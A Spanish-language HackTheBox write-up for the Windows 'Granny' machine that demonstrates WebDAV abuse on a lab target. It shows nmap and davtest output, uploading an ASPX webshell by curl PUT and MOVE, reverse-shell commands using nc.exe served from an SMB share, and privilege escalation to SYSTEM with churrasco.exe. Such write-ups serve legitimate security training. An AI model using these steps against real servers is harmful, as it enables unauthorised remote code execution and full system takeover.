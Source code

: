 ```yaml
---
title: HackTheBox - Granny
author: cotes
date: 2023-09-14 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Windows, 'ISS Misconfiguration', 'Token Kidnapping Local Privilege Escalation (churrasco.exe)']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Granny/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Granny Machine Logo
---
```


Máquina Windows de nivel **Easy** de HackTheBox.

Técnicas usadas: **ISS Misconfiguration, Token Kidnapping Local Privilege Escalation (churrasco.exe)**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Granny/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Granny/02-versions.png)

* Como en el servidor se pueden usar múltiples métodos. Usaremos **davtest** para conocer que tipos de ficheros podemos subir

    ```bash
    ❯ davtest -url http://<IP Optimum>
    /usr/bin/davtest Summary:
    Created: http://10.10.10.15/DavTestDir_gAlOic7ySMNmb_n
    PUT File: http://10.10.10.15/DavTestDir_gAlOic7ySMNmb_n/davtest_gAlOic7ySMNmb_n.jsp
    PUT File: http://10.10.10.15/DavTestDir_gAlOic7ySMNmb_n/davtest_gAlOic7ySMNmb_n.txt
    PUT File: http://10.10.10.15/DavTestDir_gAlOic7ySMNmb_n/davtest_gAlOic7ySMNmb_n.jhtml
    PUT File: http://10.10.10.15/DavTestDir_gAlOic7ySMNmb_n/davtest_gAlOic7ySMNmb_n.html
    PUT File: http://10.10.10.15/DavTestDir_gAlOic7ySMNmb_n/davtest_gAlOic7ySMNmb_n.php
    PUT File: http://10.10.10.15/DavTestDir_gAlOic7ySMNmb_n/davtest_gAlOic7ySMNmb_n.cfm
    PUT File: http://10.10.10.15/DavTestDir_gAlOic7ySMNmb_n/davtest_gAlOic7ySMNmb_n.pl
    Executes: http://10.10.10.15/DavTestDir_gAlOic7ySMNmb_n/davtest_gAlOic7ySMNmb_n.txt
    Executes: http://10.10.10.15/DavTestDir_gAlOic7ySMNmb_n/davtest_gAlOic7ySMNmb_n.html
    ```

    >  No podemos subir ficheros **.asp** o **.aspx**, pero, podemos subir un fichero con extensión acepta y moverlo para tratar de cambiarle la extensión
    {: .prompt-info }

* Subimos un fichero test.txt, pero, su contenido será una webshell aspx

    ```bash
    ❯ cp /usr/share/webshells/aspx/cmdasp.aspx test.txt
    ❯ curl -s -X PUT http://<IP Optimum>/test.txt -d @test.txt
    ❯ curl -s -X MOVE -H "Destination:http://<IP Optimum>/test.aspx" http://<IP Optimum>/test.txt
    ```

c. Ahora, ya podemos ejecutar comandos

![](/assets/images/HTB/Easy/Granny/03-rce.png)

* Nos entablaremos una reverse shell

    ```bash
    ❯ ls
    ❯ nc.exe
    ❯ impacket-smbserver Share ./ -smb2support
    ```

    ![](/assets/images/HTB/Easy/Granny/04-reverse.png)

    ```bash
    ❯ nc -lvnp 443
    connect to [10.10.14.18] from (UNKNOWN) [10.10.10.15] 1038
    Microsoft Windows [Version 5.2.3790]
    (C) Copyright 1985-2003 Microsoft Corp.

    c:\windows\system32\inetsrv>
    ```

### Escalada de Privilegios 💹

a. Investigamos un exploit en base a la información de `systeminfo`

```cmd
c:\windows\system32\inetsrv>systeminfo                                                                                                                                                        
                                                                                                                                                                                              
Host Name:   GRANNY                                                                                                                                                             
OS Name:     Microsoft(R) Windows(R) Server 2003, Standard Edition
```

* El sistema es vulnerable a [Token Kidnapping (churrasco.exe)](https://github.com/jivoi/pentest/blob/master/exploit_win/churrasco)

b. Pasamos el exploit a la máquina víctima y ejecutamos un comando para testear

```bash
❯ impacket-smbserver Share ./ -smb2support
-------------------------------------------------------------
C:\Temp>copy \\10.10.14.18\Share\churrasco.exe churrasco.exe
C:\Temp>.\churrasco.exe -d "whoami"
<SNIP>
nt authority\system
```

c. Nos entablaremos una reverse shell para tener una consola interactiva. 

```bash
❯ ls
❯ nc.exe
❯ impacket-smbserver Share ./ -smb2support
-------------------------------------------------------------
C:\Temp>.\churrasco.exe -d "\\<tun0 IP>\Share\nc.exe -e cmd <tun0 IP> 4445"

# Nos ponemos en escucha con nc
❯ nc -lvnp 4445
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
nt authority\system
```